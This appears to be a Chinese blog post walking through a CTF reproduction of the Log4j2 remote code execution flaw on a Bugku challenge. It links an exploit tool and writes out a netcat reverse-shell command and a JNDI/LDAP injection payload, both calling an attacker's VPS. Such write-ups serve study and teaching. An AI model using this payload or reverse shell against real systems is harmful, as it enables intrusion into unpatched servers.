 ```yaml
---
title: Log4j2_RCE漏洞复现
comments: true
tags:
  - Log4j2_RCE
  - cve
categories: cve
keywords: Log4j2
top_img: 'https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-0.png'
cover: 'https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-0.png'
abbrlink: 80c2d2
date: 2021-12-20 10:58:30
---
```


#  Log4j2_RCE漏洞复现

## 漏洞简介

Apache **Log4j2**是一个基于Java的日志记录工具。由于Apache Log4j2某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。

漏洞适用版本为`2.0 <= Apache log4j2 <= 2.14.1`，只需检测Java应用是否引入 log4j-api , log4j-core 两个jar。若存在应用使用，极大可能会受到影响。

## 复现过程

本文复现地址

[https://ctf.bugku.com/challenges/detail/id/340.html](https://ctf.bugku.com/challenges/detail/id/340.html)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-1.png)

使用工具

[https://gitee.com/bjmlw2021/JNDIExploit/tree/master](https://gitee.com/bjmlw2021/JNDIExploit/tree/master)

https://zhiji.lanzoul.com/iwGopxrn27c
密码:8r02

将利用工具上传至自己的公网vps

开启ldap和http服务监听

```
java -jar JNDIExploit-master.jar -i 自己公网vps的ip
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-2.png)

另开终端，nc开启监听

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-3.png)



base64加密反弹shell命令

```
nc 公网vps的ip 12345 -e /bin/sh
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-5.png)

进行jndi注入攻击

```java
${jndi:ldap://x.x.x.x:1389/Basic/Command/Base64/[base64加密后命令]}
```

在关卡页面，输入payload,密码随意。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-4.png)

成功反弹shell

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-6.png)
